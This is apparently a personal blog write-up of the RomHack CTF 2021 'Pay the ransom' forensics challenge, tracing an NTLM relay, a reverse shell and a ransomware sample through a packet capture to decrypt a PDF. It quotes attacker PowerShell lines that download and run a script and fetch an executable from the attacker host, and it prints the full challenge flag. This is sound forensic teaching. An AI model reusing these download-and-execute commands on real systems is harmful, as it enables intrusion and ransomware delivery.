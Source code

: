 ```yaml
---
layout: post
title:  "writeup: RomHack CTF 2021 - Pay the ransom"
date:   2021-09-27
permalink: /writeups/romhack-2021-pay-the-ransom
---
```


This is a writeup for the "Pay the ransom" forensics challenge from RomHack CTF
2021 organized by [HackTheBox](https://www.hackthebox.eu).

As the initial setup for the challenge we receive two files, _invoice.pdf.enc_ and
_capture.pcap_, as well as a brief from the victim saying that their files are
encrypted. Unfortunately I did not copy the message before the CTF ended, so it's
gone for good now. The PCAP file is a network traffic capture file and the enc-file
is presumably one of the victim's files in encrypted form, which they said they
urgently needed to be decrypted.

I used Wireshark to browse the PCAP file. What I usually do with PCAP files in
CTF's is to see what are the most used protocols and quickly scan through the
entire thing to get a very rough overview of what has happened. In this case it
looks like there was some HTTP and SMB traffic at the start of the capture,
followed by plenty of plain TCP packets, and ending with a short HTTP interaction.
My initial hunch for what the large plain TCP stream would be was either an
encrypted communications channel, or an encrypted data transfer. Or both.

In the image below we can see that 192.168.1.8 (presumably the victim) is using
WebDAV to communicate with 192.168.1.16, the attacker, which in turn responds with
an NTLM authentication request. I'm not very familiar with the NTLM protocol, but
based on the capture it looks like the attacker is reusing the authentication
process to impersonate as the victim to the SMB service at 192.168.1.11.

[![HTTP-NTLM-SMB]({{site.path_img}}/writeups/romhack2021-ransom-http-ntlm-smb.png)]({{site.path_img}}/writeups/romhack2021-ransom-http-ntlm-smb.png)

If we look at the SMB traffic we see that the attacker has now authenticated as
CORP\fcastle. We also see that it is connecting to the \IPC$ share and using
SVCCTL. I don't know much about the details of how utilities like PsExec do
command execution over SMB, but my guess is it looks something like what we see
in this capture file. Following the TCP stream related to the SMB traffic we can
see that there are PowerShell commands being sent to 192.168.1.11.

[![SMB PowerShell]({{site.path_img}}/writeups/romhack2021-ransom-tcp-stream-smb.png)]({{site.path_img}}/writeups/romhack2021-ransom-tcp-stream-smb.png)

Let's decode that base64-encoded execute.bat:

``` bash
printf "aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEALgAxADYAOgA4ADAAOAAwAC8AcgBlAHYALgBwAHMAMQAnACkAOwAkAHAAYQByAHQAMQA9ACIASABUAEIAewBuADAAdABfAHAANAB5ADEAbgBnACIA" | base64 -d

# Outputs:
# iex (new-object net.webclient).DownloadString('http://192.168.1.16:8080/rev.ps1');$part1="HTB{n0t_p4y1ng"
```

The attacker seems to have upgraded to a reverse shell. We've also got the first
part of the flag: `HTB{n0t_p4y1ng`.

When looking for _rev.ps1_ and the resulting reverse shell, I noticed that the
+/- buttons in the follow-dialogue are a handy way of browsing the TCP streams.
The HTTP request for _rev.ps1_ is in stream 7 and the shell in 8.

[![TCP stream
browsing]({{site.path_img}}/writeups/romhack2021-ransom-browse-stream.png)]({{site.path_img}}/writeups/romhack2021-ransom-browse-stream.png)

The reverse shell was doing some basic enumeration of the system and using
Mimikatz. It also issued the following command:

``` powershell
iex (New-Object System.Net.WebClient).DownloadFile("http://192.168.1.16:8080/music.exe","C:\Users\Public\Music\music.exe")
```

The brief also mentioned that the victim was listening to music while this
happened. This was pretty much a hint for what to investigate next. I extracted
_music.exe_ and opened it in dotPeek on a Windows VM. As a side note, I use
[Flare VM](https://github.com/mandiant/flare-vm) as my Windows test machine, as
it installs plenty of handy software.

The binary decompiles nicely and reveals a `Reverse_Shell` namespace. Sounds
relevant. There is also a string called `part2` with the value `_th3_r4ns0m_1s`.
No doubt the 2nd part of the flag. Most of the code in the reverse shell is
fairly standard - open a TCP stream to C&C server, encrypt (xor) the data,
receive commands for either RCE or something specific. The most relevant part of
the program can be seen in the image below:

[![Reverse shell encryption
command]({{site.path_img}}/writeups/romhack2021-ransom-revshell.png)]({{site.path_img}}/writeups/romhack2021-ransom-revshell.png)

The function `injran` takes a xor key (`part2` was used as the key) and decrypts
an Assembly object from the attacker's server. I extracted the the _party.b64_
file from the capture and this time used
[CyberChef](https://gchq.github.io/CyberChef/) to decode and decrypt the data,
which turns out to be a `PE32+ executable (console) x86-64 Mono/.Net assembly,
for MS Windows` file. Decompiling it in dotPeek reveals some key information
about how the encryption was done. The images below are the key takeaways.

[![AES assembly object part
1]({{site.path_img}}/writeups/romhack2021-ransom-aes1.png)]({{site.path_img}}/writeups/romhack2021-ransom-aes1.png)

[![AES assembly object part
2]({{site.path_img}}/writeups/romhack2021-ransom-aes2.png)]({{site.path_img}}/writeups/romhack2021-ransom-aes2.png)

The program creates an AES cipher in CFB mode with blocksize of 128, PKCS7
padding, a PBKDF2 generated key with 50000 iterations with a randomly generated
password, and a randomly generated salt. The salt is prepended to the resulting
encrypted file, and the password is xored with a key (the same xor key). The
encrypted key is then sent to the attacker's server over HTTP to _/post.php_.
Those are all the required parameters for encryption and decryption. The
password to generate the key can easily be extracted from the capture file and
decrypted with the xor key. Below is an image of the decrypted PDF.

[![Invoice
PDF]({{site.path_img}}/writeups/romhack2021-ransom-invoice-pdf.png)]({{site.path_img}}/writeups/romhack2021-ransom-invoice-pdf.png)

We've successfully decrypted the PDF and can most likely decrypt any other files
the malware might have encrypted. The full flag is:

`HTB{n0t_p4y1ng_th3_r4ns0m_1s_4lw4ys_th3_4nsw3r!!!}`

## This didn't really happen

What you just read was my recreation of how I would have properly solved this
challenge if I had had more than just 2 hours to solve it. After quickly
scanning through the PCAP for used protocols I just filtered to show HTTP
traffic. I saw the request to _/music.exe_ and thought it looked very
suspicious, so I completely skipped part 1. I spent most of the remaining time
reversing _music.exe_ and the rest. At this point I thought I had all the
necessary pieces: the required parameters to decrypt _invoice.pdf.enc_. I
fumbled around with CyberChef to decrypt the file, and had an almost valid PDF
file from the decryption. However, there were plenty of junk bytes at the start
of the resulting file, and I couldn't get a viewer to open it. It was corrupted.
I didn't know how to extract the IV and wasn't sure about the format of the
encrypted file. Nevertheless, at this point it was 3 minutes past the deadline,
so no points for my team :(.

I spent about another hour trying to get the PDF into a valid file and looking
for the first part of the flag. After missing the deadline I eventually realized
that I didn't need the correct IV since the decrypted file was only missing the
first few bytes of a valid PDF header (looks something along the lines of
`%PDF-17...`). When I noticed that the PDF only had the final part of the flag,
I felt both frustrated and relieved. Frustrated because it still wasn't over,
but relieved that it wasn't just a matter of minutes by which I'd missed the
deadline. No need to wonder about "If I had only done X I could've made it!".

Anyway, the challenge was fun and didn't feel too challenging for me, which was
a welcome change. Sometimes it's nice to do challenges where you pretty much
know where you're going for most of the time. I give this challenge seven and a
half bits out of four possible qubits or whatever...

